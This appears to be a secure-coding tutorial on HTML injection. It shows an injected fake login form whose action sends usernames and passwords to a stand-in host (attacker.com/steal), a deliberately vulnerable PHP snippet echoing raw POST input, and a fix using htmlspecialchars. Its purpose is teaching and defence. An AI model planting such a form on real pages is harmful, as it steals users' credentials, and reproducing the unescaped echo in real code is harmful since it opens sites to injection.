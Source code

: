 # Vulnerabilities

### htmli

HTML Injection (HTMLi) is a vulnerability that occurs when an attacker is able to inject HTML code into a web page by exploiting a weakness in the input validation process. This can happen, for example, if a web application does not properly validate user input or if it allows users to submit data that includes HTML tags that can be executed on the page.  
  
Let's say there is a vulnerable web page that allows users to submit comments, which are then displayed on the page without proper validation. An attacker could submit a comment that includes a ```<form>``` tag that is used to collect sensitive information from users, such as their login credentials.  
Here is an example of what the injected HTML code might look like:
```html
<p>Thank you for visiting our website. Please login to continue:</p>
<form method="post" action="http://attacker.com/steal">
  <label>Username:</label>
  <input type="text" name="username"><br>
  <label>Password:</label>
  <input type="password" name="password"><br>
  <input type="submit" value="Login">
</form>
```

In this example, the attacker has injected a ```<form>``` tag that looks like a legitimate login form. The form is set up to submit the entered username and password to the attacker's website (http://attacker.com/steal) when the user clicks the "Login" button.  

When the user views the page and enters their login credentials, they will unknowingly submit them to the attacker's website instead of the legitimate website. The attacker can then use the stolen credentials to access the victim's account and carry out further attacks.  
  
Example of vulnerable code:  
```php
<?php
  $comment = $_POST['comment'];
  echo "<p>You entered the following comment:</p>";
  echo "<p>$comment</p>";
?>
```
In this code, the value of the ```$_POST['comment']``` variable is directly printed onto the page without being properly validated or filtered. This means that an attacker can inject any HTML code they want into the page by submitting a comment that includes HTML tags.  
  
Fix:  
To fix this vulnerability, we need to properly validate and filter the user input before printing it onto the page. Here's an example of how we can do this:  
```php
<?php
  $comment = $_POST['comment'];
  $filtered_comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
  echo "<p>You entered the following comment:</p>";
  echo "<p>$filtered_comment</p>";
?>
```

In this updated code, we use the ```htmlspecialchars``` function to filter out any HTML tags and special characters that could be used to inject malicious code. The ```ENT_QUOTES``` flag is used to ensure that both single and double quotes are properly escaped, and the ```'UTF-8'``` parameter specifies the character encoding to use. This helps prevent HTML injection and other types of code injection attacks.

